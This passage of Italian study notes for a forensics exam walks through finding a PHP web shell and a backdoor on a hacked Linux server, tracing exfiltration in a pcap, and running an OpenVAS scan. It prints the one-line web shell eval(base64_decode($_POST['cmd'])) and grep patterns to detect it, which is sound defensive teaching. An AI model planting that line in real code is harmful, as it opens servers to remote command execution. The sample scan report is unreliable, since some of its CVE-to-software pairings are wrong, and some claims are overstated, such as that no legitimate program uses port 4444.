> **Cosa dire all'esame:** "Con Process Explorer identifico il processo malevolo: nome sospetto, percorso in Temp, firma mancante, connessione TCP verso C2 su porta 4444, figlio di winword.exe = macro. Con Autoruns trovo la chiave di persistenza in HKLM\\Run. Rimuovo: taskkill, delete file, delete chiave registro, riavvio, verifica con Process Explorer e netstat. Sistema pulito."

---

## LAB 4: Ricerca **malware** in un server web (**Linux**)



> **Collegamento alla teoria:** Questo lab applica Q39 (acquisizione RAM Linux con fmem/LiME), Q52 (malfind per codice iniettato), Q55 (WebShell PHP con eval/base64_decode/shell_exec), Q58 (Wireshark per traffico).

**Scenario:** Un sito web ospitato su Linux e' stato hackerato. Devi scoprire come ha fatto l'attaccante.

**Il prof ti da':** Una cartella con dei file gia' estratti dal server. NON devi collegarti al server vero. I file sono sul tuo PC. Contengono: elenco processi, porte di rete, file PHP del sito, log del server web.

**LOGICA:** Un server web compromesso ha 4 tracce tipiche:
1. Qualcuno ha ottenuto un accesso che non dovrebbe avere (processi sospetti) → **Q39 acquisizione RAM Linux**
2. Ha aperto una porta per rientrare (backdoor) → **Q51 netscan**
3. Ha caricato un file PHP per eseguire comandi (web shell) → **Q55 WebShell**
4. Ha lasciato tracce nei log del server → **Q44 Event Logs, Q58 Wireshark**

Tu devi trovare TUTTE e 4 le cose.

**[DIGITA]: Terminale (apri il terminale e digita questi comandi in ordine)**

```
cd /home/studente/lab4
ls -la
cat processes.txt
cat netstat.txt
grep -r "eval" /home/studente/lab4/var/www/ --include="*.php"
grep -r "base64_decode" /home/studente/lab4/var/www/ --include="*.php"
grep -r "shell_exec" /home/studente/lab4/var/www/ --include="*.php"
find /home/studente/lab4/var/www/ -name "*.php" -mtime -1
cat access.log | grep "POST"
cat access.log | grep "avatar.php"
```

**SPIEGAZIONE COMANDO PER COMANDO:**

`cd /home/studente/lab4`: entri nella cartella coi file che ti ha dato il prof.

`ls -la`: vedi cosa c'e' dentro: processes.txt, netstat.txt, cartella var/www/, access.log. Cosi' sai cosa hai a disposizione.

`cat processes.txt`: leggi l'elenco dei processi. Era il comando `ps aux` fatto sul server. Ogni riga e' un programma in esecuzione. La colonna USER ti dice CHI lo ha lanciato. Quello che CERCHI: un processo lanciato da **www-data** (l'utente del server web). www-data dovrebbe SOLO servire pagine web. Se www-data esegue `/bin/bash`, significa che l'attaccante ha ottenuto un terminale remoto. Non dovrebbe MAI succedere.

`cat netstat.txt`: leggi le porte di rete. Ogni riga e' una porta. CERCHI porte STRANE. Un server web normale ha SOLO porta 80 (HTTP) e 443 (HTTPS). Se vedi 4444, 1337, 8080 = BACKDOOR (l'attaccante ha aperto una porta per rientrare).

`grep -r "eval" ...`: cerca la parola "eval" dentro TUTTI i file PHP del sito. `eval()` e' una funzione PHP che esegue codice. Gli hacker la usano per eseguire comandi sul server. Un file PHP legittimo NON contiene eval().

`grep -r "base64_decode" ...`: cerca "base64_decode". Gli hacker scrivono comandi in base64 (testo offuscato) per nasconderli. base64_decode() li trasforma di nuovo in comandi eseguibili. Un file PHP legittimo NON usa base64_decode().

`grep -r "shell_exec" ...`: cerca "shell_exec". E' un'altra funzione PHP che esegue comandi. Stessa logica: i file legittimi non la usano.

Il RISULTATO di questi grep: trovi un file tipo `avatar.php` dentro `/uploads/` che contiene `eval(base64_decode($_POST['cmd']))`. Questa e' una WEB SHELL: un file PHP che permette all'attaccante di inviare comandi via browser. E' la PROVA che il server e' stato hackerato.

`find ... -name "*.php" -mtime -1`: trova i file PHP modificati nelle ultime 24 ore. Se avatar.php e' stato creato o modificato di recente, e' stato appena caricato dall'attaccante.

`cat access.log | grep "POST"`: access.log e' il registro di TUTTE le richieste fatte al sito. Ogni riga e' una visita. `POST` e' il metodo usato per INVIARE dati (un visitatore normale usa GET per leggere pagine). CERCHI POST verso avatar.php = l'attaccante ha inviato comandi alla web shell.

`cat access.log | grep "avatar.php"`: vedi TUTTE le richieste a avatar.php. Se vengono sempre dallo STESSO IP, e' un singolo attaccante. Se sono ogni 2-3 minuti, e' un umano che digita comandi.

**COSA DEVI TROVARE (le 4 prove):**

1. PROCESSI SOSPETTI: www-data che esegue bash (processes.txt)
2. BACKDOOR: porta 4444 in ascolto (netstat.txt)
3. WEB SHELL: avatar.php con eval+base64+POST (grep)
4. LOG: POST ripetuti da IP 185.x.x.x verso avatar.php (access.log)

**[DA SPIEGARE A VOCE]**: Quando il prof ti chiede di spiegare, digli: "Prima guardo i processi per vedere se c'e' un accesso remoto. Poi guardo le porte di rete per trovare backdoor. Poi cerco web shell nei file PHP con grep. Infine controllo i log per vedere l'attivita' dell'attaccante."

**COSA È ANDATO STORTO: LE PROVE ESATTE:**
- www-data esegue bash. www-data e' l'utente del server web, NON deve avere una shell interattiva.
- Porta 4444 aperta su 0.0.0.0. Un server web apre solo 80 e 443. Porta extra = backdoor.
- avatar.php contiene `eval(base64_decode($_POST['cmd']))`. Tre funzioni pericolose in una riga sola.
- access.log mostra POST a avatar.php ogni 2-3 minuti dallo stesso IP. Attivita' manuale da attaccante.

**IN SINTESI, PROFESSORE:** "Ho trovato che www-data esegue una shell bash, c'e' una backdoor sulla porta 4444, e' stata caricata una web shell in avatar.php tramite upload non filtrato, e i log confermano che l'attaccante la sta usando da IP 185.x.x.x."

> **Cosa dire all'esame:** "Analizzo i file del server Linux: processes.txt mostra www-data che esegue bash = shell remota. netstat.txt mostra porta 4444 in ascolto = backdoor Metasploit. grep nel codice PHP trova avatar.php con eval+base64_decode+shell_exec = web shell. access.log mostra POST ripetuti a avatar.php dallo stesso IP 185.x.x.x. Ho 4 prove indipendenti della compromissione del server."

**[DIGITA EXTRA]: CyberChef e YARA (se il prof vuole vedere che sai usare anche altri suoi strumenti)**


```
CyberChef (nel browser):
  Incolla la stringa base64 che hai trovato con grep
  Usa l'operazione "From Base64"
  Leggi il codice decodificato -> vedi i comandi che l'attaccante ha nascosto
```


```
YARA (da terminale):
  yara -r regole_webshell.yar /home/studente/lab4/var/www/
  Scansiona tutti i file PHP con regole per web shell note
  Output: avatar.php corrisponde alla regola "PHP_Webshell_Generic"
```


```
VirusTotal (nel browser):
  md5sum avatar.php
  Cerca l'hash su virustotal.com
  Verifica se la web shell e' gia' conosciuta
```


**Perche' questi extra?** Il prof ha nominato **CyberChef** e **YARA** tra i suoi strumenti. CyberChef decodifica il base64 che hai trovato (cosi' leggi i comandi nascosti dell'attaccante). YARA scansiona i file con regole predefinite per trovare web shell note. VirusTotal ti dice se il file e' malevolo secondo 70+ antivirus. Non sono obbligatori ma dimostrano che conosci piu' strumenti del prof.

**[DIGITA EXTRA 2]: Hashing dei file (per verificare integrita' e cercare malware noti)**

Il prof nel RECAP (Slide 54) chiede: "Quale e' il comando per effettuare un hash SHA256 di un file?".

```
Windows (Certutil, citato dal prof):
  certutil -hashfile avatar.php SHA256
  certutil -hashfile avatar.php MD5

Linux:
  sha256sum avatar.php
  md5sum avatar.php
```

**A cosa serve l'hash nel Lab 4:**
- Calcoli l'hash SHA256 della web shell (avatar.php)
- Cerchi l'hash su VirusTotal: se 48/72 antivirus lo riconoscono, e' malevolo
- L'hash ti da' la PROVA che il file non e' stato modificato (stesso hash = stesso file)
- Puoi cercare l'hash su database di threat intelligence (Abuse.ch, ThreatFox)

---

## LAB 5: Analisi di un file **.pcap** (Wireshark)



> **Collegamento alla teoria:** Questo lab applica Q50 (Network Forensic), Q53 (hash SHA256), Q55 (WebShell), Q58 (Wireshark), Q59 (Export Objects HTTP).

**Scenario:** Hai la registrazione del traffico di rete di un computer. Dentro c'e' nascosta attivita' malevola. Devi trovarla.

**Il prof ti da':** Un file .pcap (o .pcapng). E' la "videocamera" del traffico di rete: tutto quello che e' passato dal cavo di rete e' stato registrato.

**LOGICA:** Quando un malware ruba dati, DEVE parlare con Internet. Il .pcap registra OGNI singolo pacchetto che e' entrato e uscito. Tu sei il detective che guarda il filmato per trovare:
1. Che protocolli sono stati usati (normale o sospetto?)
2. Con chi ha parlato il computer (IP normale o IP in Russia?)
3. Quanti dati sono usciti (pochi KB = navigazione. Tanti MB = furto dati)
4. Che file sono stati scaricati/caricati

**[DIGITA]: Wireshark (in ordine)**


```
File > Open > apri il file .pcap

Statistics > Summary              (panoramica: quanto dura la cattura, quanti MB)
Statistics > Protocol Hierarchy    (quali protocolli sono presenti)
Statistics > Conversations > TCP > clicca su Bytes  (chi ha trasferito piu' dati)
Statistics > Endpoints             (con chi ha parlato il computer)

Barra filtro verde (Apply a display filter): scrivi e INVIO:
  http                              (traffico web NON cifrato)
  http.request.method == "POST"     (upload di dati)
  dns                               (domini richiesti)
  ip.addr == 192.168.1.100          (filtra per un computer specifico)
  tcp.port == 4444                  (porta Metasploit)

Click DESTRO su un pacchetto sospetto > Follow > TCP Stream   (legge la conversazione)
File > Export Objects > HTTP > Save All                        (scarica i file scambiati)
```

**SPIEGAZIONE PASSO PER PASSO:**

**Statistics > Summary**: ti dice QUANTO dura la cattura e quanti MB totali. Un pcap di 2 minuti con 500 MB = sta succedendo qualcosa di grosso. Un pcap di 8 ore con 50 MB = navigazione normale.

**Statistics > Protocol Hierarchy**: ti dice QUALI protocolli sono stati usati. In una rete aziendale moderna e' TUTTO HTTPS (cifrato). Se vedi HTTP (non cifrato) = RED FLAG. Qualcuno sta trasmettendo dati in chiaro, visibili a tutti.

**Statistics > Conversations > TCP > clicca Bytes**: e' IL passo piu' importante. Ti mostra TUTTE le coppie di computer che hanno parlato, ordinate per quanti dati si sono scambiati. La coppia in CIMA alla lista e' quella che ha trasferito piu' dati.

Cosa vedi:
```
Address A (chi)     Address B (con chi)      Bytes A→B
192.168.1.50        185.xx.xx.xx             52.428.800    <-- 50 MB!
192.168.1.50        142.250.1.1 (Google)     3.200
```
Il computer 192.168.1.50 ha mandato 50 MB a 185.x.x.x. Google e' 3 KB. 50 MB non e' navigazione: e' un furto di dati. E 185.x.x.x e' un IP sconosciuto (non Google, non Microsoft, non l'universita').

**Filtro `http`**: mostra SOLO traffico HTTP (non cifrato). Se vedi richieste a pagine web in chiaro = puoi LEGGERE tutto quello che e' stato trasmesso.

**Filtro `http.request.method == "POST"`**: GET = leggere una pagina. POST = INVIARE dati. Un POST da 30-50 MB NON e' un modulo di login: e' un upload di dati rubati.

**Filtro `dns`**: mostra quali domini sono stati richiesti. Il malware deve PRIMA chiedere al DNS "dov'e' il server dell'attaccante?" e POI connettersi. CERCHI domini con nomi casuali (tipo a7x9q.xyz) o con estensioni strane (.xyz, .tk, .ml). I domini legittimi sono google.com, microsoft.com. a7x9q.xyz non lo e'.

**Filtro `tcp.port == 4444`**: mostra traffico sulla porta 4444. Questa e' la porta di Metasploit, il toolkit di hacking piu' famoso. NESSUN programma legittimo usa la porta 4444.

**Follow > TCP Stream**: ti fa LEGGERE l'intera conversazione tra due computer. Rosso = quello che ha inviato la vittima. Blu = la risposta del server. Se vedi nomi di file, password, dati di database = PROVA DEFINITIVA del furto.

**Export Objects > HTTP**: Wireshark ha gia' trovato tutti i file trasmessi via HTTP. Puoi salvarli sul tuo PC. Se trovi .exe, .dll, .js = sono i PAYLOAD (il malware originale che e' stato scaricato).

**COSA DEVI TROVARE (le 5 prove):**

1. HTTP in chiaro (non dovrebbe esserci in rete aziendale)
2. Conversazione da 50 MB verso IP estero (non e' navigazione, e' furto)
3. Domini .xyz con nomi casuali (DGA, generati dal malware)
4. POST HTTP verso IP dell'attaccante (upload di dati)
5. File .exe estratti via Export Objects (il malware stesso)

**[DA SPIEGARE A VOCE]**: "Apro il pcap, guardo Protocol Hierarchy e trovo HTTP non cifrato. Poi apro Conversations ordinate per Bytes e vedo 50 MB verso un IP in Russia. Filtro per DNS e trovo domini .xyz casuali. Filtro per POST e vedo upload di dati. Infine estraggo i file con Export Objects."

**COSA È ANDATO STORTO: LE PROVE ESATTE:**
- HTTP in chiaro in una rete che dovrebbe essere tutta HTTPS = dati esposti.
- 50 MB verso IP 185.x.x.x = non e' navigazione web, e' furto di dati.
- Dominio a7x9q.xyz = nome casuale, dominio .xyz gratuito, registrato 3 giorni fa = DGA.
- POST HTTP verso /upload.php con 50 MB = i dati rubati vengono caricati sul server dell'attaccante.
- User-Agent: python-requests/2.28.0 = non e' un browser umano, e' uno script automatico.

**IN SINTESI, PROFESSORE:** "Il pcap mostra HTTP in chiaro. 50 MB sono usciti verso un IP in Russia. Il DNS rivela domini DGA. I POST HTTP confermano l'upload dei dati. Ho la prova completa dell'esfiltrazione."

> **Cosa dire all'esame:** "Apro il .pcap in Wireshark. Protocol Hierarchy mostra HTTP non cifrato. Conversations ordinate per Bytes rivela 50 MB verso IP 185.x.x.x. Filtro POST conferma upload. Filtro DNS mostra domini .xyz DGA registrati 3 giorni fa. Filtro tcp.port==4444 trova traffico Metasploit. Export Objects HTTP estrae il payload .exe. Esfiltrazione provata da 5 indicatori indipendenti."

---

## LAB 6: **Vulnerability Assessment** di un'organizzazione



> **Collegamento alla teoria:** Questo lab applica Q22 (Vulnerability Assessment), Q24 (Threat Intelligence), Q27 (Pen Test vs VA).

**Scenario:** Devi valutare la sicurezza di un'organizzazione, trovare vulnerabilita' e proporre soluzioni.

**Il prof ti da':** Un indirizzo IP o range di rete (es. 192.168.1.0/24): lo scannerizzi dal tuo PC.

**LOGICA:** Un Vulnerability Assessment e' come una visita medica all'organizzazione. Cerchi TUTTE le vulnerabilita', assegni un punteggio di gravita' (CVSS), e proponi le cure (remediation). Non devi sfruttare le vulnerabilita': solo trovarle e classificarle.

**[DIGITA]: OpenVAS (Greenbone Security Assistant)**

Apri il browser e vai a `https://localhost:9392` (l'interfaccia di OpenVAS):

```
Step 1: Configurazione:
  Apri il browser e vai all'indirizzo di OpenVAS che ti da' il prof
  (solitamente https://localhost:9392 o https://127.0.0.1:9392)
  Menu' Scans > Tasks > clicca New Task
  Nome: Lab6_Scan
  Scan Targets > seleziona o crea nuovo target: 192.168.1.0/24
  Scan Config > seleziona "Full and Fast"

Step 2: Esecuzione:
  Clicca su Start (icona play triangolo)
  Aspetta 15-30 minuti (scansione completa del range)
  La barra di progresso diventa verde quando finisce

Step 3: Analisi:
  Clicca sul Task completato > Reports
  Ordina per Severity (dal piu' critico al meno)
  Clicca su ogni CVE per vedere i dettagli

Step 4: Remediation:
  Per ogni vulnerabilita' critica/alta, scrivi la soluzione
  Priorita': CRITICAL > HIGH > MEDIUM > LOW
```


**SPIEGAZIONE PASSO PER PASSO:**

**Step 1: Configurazione.** Full and Fast = scansione completa ma veloce. Testa migliaia di vulnerabilita' note (chiamate NVT: Network Vulnerability Tests). Il target 192.168.1.0/24 significa "scansiona tutti i computer da 192.168.1.1 a 192.168.1.254".

**Step 2: Esecuzione.** OpenVAS prima fa host discovery (pinga tutti gli IP per vedere chi risponde). Poi per ogni host attivo fa port scanning (quali porte sono aperte). Poi per ogni porta aperta identifica il software e la versione. Infine cerca CVE per quel software.

**Step 3: Analisi.** Il report ti dice per ogni host:
- Quali porte sono aperte (22 SSH, 80 HTTP, 443 HTTPS, 3306 MySQL...)
- Che software gira su ogni porta (Apache 2.4.41, OpenSSH 7.9, MySQL 5.7.38)
- Quali CVE colpiscono quel software
- Il punteggio CVSS di ogni CVE

Il report si presenta cosi':

```
Host: 192.168.1.100
  Porta 80 - Apache httpd 2.4.41
    CVE-2022-31813   CVSS 9.8 CRITICAL   Remote Code Execution
    CVE-2021-41773   CVSS 7.5 HIGH       Path Traversal
  Porta 22 - OpenSSH 7.9
    CVE-2021-41617   CVSS 7.0 HIGH       Privilege Escalation
  Porta 3306 - MySQL 5.7.38
    CVE-2022-21587   CVSS 6.5 MEDIUM     Authentication Bypass

>> Apache 2.4.41 (uscito nel 2019) ha CVE critiche del 2022 NON patchate.
   L'organizzazione non aggiorna i server da anni = RISCHIO ALTISSIMO.
```

**Step 4: Remediation.** Per ogni vulnerabilita' proponi una soluzione CONCRETA:
- Apache RCE → `apt upgrade apache2` alla versione 2.4.57+
- SSH weak ciphers → modifica `/etc/ssh/sshd_config`, disabilita password auth
- MySQL auth bypass → upgrade a MySQL 8.0.32+
- TLS 1.0 obsoleto → abilita solo TLS 1.2 e 1.3

**CVSS: Come si calcola.** Il CVSS assegna un punteggio da 0 a 10 in base a:
- Attack Vector (Network = 9.8, Local = piu' basso)
- Attack Complexity (Low = piu' alto, High = piu' basso)
- Privileges Required (None = piu' alto)
- User Interaction (None = piu' alto)

CVE-2022-31813 = 9.8 CRITICAL perche': attaccabile da Internet (Network), facilissimo (Low complexity), senza login (No privileges), senza che nessuno clicchi nulla (No user interaction). In pratica: un hacker da qualunque parte del mondo puo' prendere il controllo del server senza nessuna password. Basta l'IP.

**NOTA:** Il prof in Dispensa 5 elenca anche **Nessus** (Tenable, commerciale), **Syxsense** e **Artic Wolf** come altri strumenti di VA. Al lab si usa OpenVAS perche' e' l'unico gratuito e open-source. All'esame orale puoi citarli: "Conosco anche Nessus, Syxsense e Artic Wolf dalla Dispensa 5, ma in lab usiamo OpenVAS."

**[DA SPIEGARE A VOCE]**: Ogni PASSO qui sopra ha gia' la spiegazione integrata. Ripercorri i PASSI 1-4 del blocco [DIGITA]. Spiega le 4 FASI: scoperta → scansione → prioritizzazione CVSS → remediation. Ogni passo OpenVAS che fai ha il suo PERCHE' spiegato li'.

**COSA È ANDATO STORTO: LE PROVE ESATTE:**
- **OpenVAS port scan**: Apache 2.4.41 (2019): 4+ anni di vulnerabilita' non patchate.
- **Report CVE**: CVE-2022-31813 = RCE senza autenticazione. CVSS 9.8 CRITICAL.
- **Perche' 9.8?**: Attack Vector Network + Low Complexity + No Privileges + No User Interaction = exploit facile da Internet senza login.
- **OpenVAS**: conferma CVE + TLS 1.0 (obsoleto 2020) + /phpmyadmin/ esposta.
- **Porta 22**: SSH con password esposto a Internet = vulnerabile a brute force.

**IN SINTESI, PROFESSORE:** Scansione OpenVAS mostra 3 host attivi. Su 192.168.1.100 trovo Apache 2.4.41 con CVE critica (RCE, CVSS 9.8). Propongo upgrade Apache e WAF. Identificato, prioritizzato, pianificata remediation."

> **Cosa dire all'esame:** "Uso OpenVAS con profilo Full and Fast sul range 192.168.1.0/24. Scopre 3 host. Su 192.168.1.100: Apache 2.4.41 con CVE-2022-31813 (RCE, CVSS 9.8 CRITICAL), OpenSSH 7.9, MySQL 5.7.38. Prioritizzo per CVSS. Propongo: upgrade Apache, disabilitare SSH password, upgrade MySQL, abilitare TLS 1.2+, WAF. Produco report con CVE, punteggio, impatto, e remediation."

---

## FINAL SELF-ASSESSMENT — Prima dell'esame

> **Fai questo il giorno prima dell'esame. 20 minuti. Scopri ESATTAMENTE cosa NON sai.**

### Blank Page Test (10 minuti)

Prendi un foglio BIANCO. Senza guardare NIENTE, scrivi:
1. I 9 blocchi e cosa contengono
2. Le 5 fasi ISO 27035
3. Le 3 fasi del Risk Assessment
4. Le 7 fasi della Kill Chain
5. I 6 comandi Volatility in ordine
6. I 4 tool SysInternals
7. I 3 tipi di backup
8. I 4 criteri della prova forense

Poi APRI queste note e CONTROLLA. Quello che hai dimenticato → rivedilo 2 minuti a voce alta.

### 3-Question Simulation (10 minuti)

Chiedi a qualcuno (o al tuo telefono con un generatore di numeri casuali 1-60) di farti 3 domande a caso. Rispondi a VOCE ALTA con la struttura 3-frasi: (1) definizione, (2) esempio pratico, (3) collegamento. Registrati. Riascoltati. Se ti viene da ridere per come parli, bene — la prossima volta parli meglio.

### La notte prima

- NO studio dopo cena. Solo la Blank Page qualche ora prima.
- NO schemi. Hai gia' studiato.
- Prepara lo zaino: acqua, cioccolato, documento.
- 4-4-4-4 breathing prima di dormire.
- Dormi 8 ore. Il sonno e' l'ultima ripetizione.

> **Entra all'esame sapendo che hai fatto TUTTO quello che potevi fare. Il resto non dipende da te. Dipende dal sonno, dall'acqua, e dal caso. Ma tu hai fatto la tua parte.**

---

*Note costruite sul metodo COME_STUDIARE.md — evidence-based: Retrieval Practice, Spaced Repetition, Dual Coding, Elaboration, Interleaving, Concrete Examples. Adattate per: deficit di memoria di lavoro, dopamina bassa, brain fog, curva dell'oblio accelerata. Ogni domanda ha CHIUDI GLI OCCHI, PASS CHECK, insegnamento al muro, e trigger If-Then.*

---
